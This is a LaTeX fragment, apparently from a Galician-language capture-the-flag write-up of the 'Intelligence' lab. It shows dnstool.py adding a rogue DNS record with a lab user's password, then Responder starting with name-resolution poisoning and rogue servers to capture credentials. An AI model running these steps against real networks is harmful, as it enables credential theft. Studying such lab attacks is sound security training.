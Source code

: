 \documentclass[a4paper]{article}
\newcommand{\ipTarget}{10.10.10.248}
\newcommand{\ipLocal}{10.10.14.12}
\begin{document}
        \begin{lstlisting}[language=Bash, caption=Agregar entrada DNS]
$ python dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' 
-a add -t A -r weboli -d ¬\ipLocal¬ ¬\ipTarget¬ 
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully\end{lstlisting}
                                                 
Entón agora a esperar co sniffer responder:
        \begin{lstlisting}[language=Bash, caption=Sniffer responder]
$ sudo responder -I tun0 -v
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.12]
    Responder IPv6             [dead:beef:2::100c]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']


\end{lstlisting}
\end{document}
